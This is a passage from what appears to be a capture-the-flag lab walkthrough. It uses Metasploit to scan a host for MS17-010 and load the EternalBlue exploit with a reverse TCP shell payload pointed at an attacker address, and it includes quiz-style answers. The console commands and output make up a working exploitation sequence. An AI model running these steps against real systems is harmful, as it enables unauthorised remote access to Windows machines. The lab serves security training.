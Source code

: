 ```
   THREADS      1                                                          yes       The number of concurrent threads (max one per host)


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/smb/smb_ms17_010) > setg RHOSTS 10.10.131.30
RHOSTS => 10.10.131.30
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 10.10.131.30:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.131.30:445      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

exploit/windows/smb/ms17_010_eternalblue

Show options and set the one required value. What is the name of this value? (All caps for submission)

RHOSTS

Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:

set payload windows/x64/shell/reverse_tcp

```
msf6 auxiliary(scanner/smb/smb_ms17_010) > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.18.72.222
LHOST => 10.18.72.222
```

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.131.30     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target ma
                                             chines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machin
                                             es.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/shell/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
```